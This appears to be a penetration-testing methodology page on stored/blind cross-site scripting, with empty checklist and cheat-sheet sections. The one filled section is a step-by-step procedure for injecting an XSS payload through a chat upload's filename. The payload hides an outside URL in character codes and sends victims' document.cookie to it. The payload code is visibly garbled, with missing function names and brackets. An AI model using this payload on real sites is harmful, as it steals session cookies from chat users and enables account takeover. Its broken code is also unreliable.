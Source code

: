 # Stored Cross Site Scripting

## Check List

## Methodology

### Black Box

#### Blind XSS

{% stepper %}
{% step %}
Set up an HTTP/HTTPS proxy (e.g., Burp Suite) and enable Intercept
{% endstep %}

{% step %}
Open the target support/chat interface and start uploading a file to the chat
{% endstep %}

{% step %}
When the upload request is captured, pause it in the proxy (Intercept)
{% endstep %}

{% step %}
Modify the filename field in the intercepted upload request to the exact string below

```javascript
"><img src=1 onerror="url=String104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61+encodeURIComponent(document['cookie']);xhttp=&#x20new&#x20XMLHttpRequest();xhttp'GET',url,true;xhttp'send';
```
{% endstep %}

{% step %}
Forward the modified request so the file with the altered filename appears in the chat
{% endstep %}

{% step %}
Open or refresh the support chat page; when the filename containing the payload is rendered, the XSS should trigger
{% endstep %}
{% endstepper %}

### White Box

## Cheat Sheet
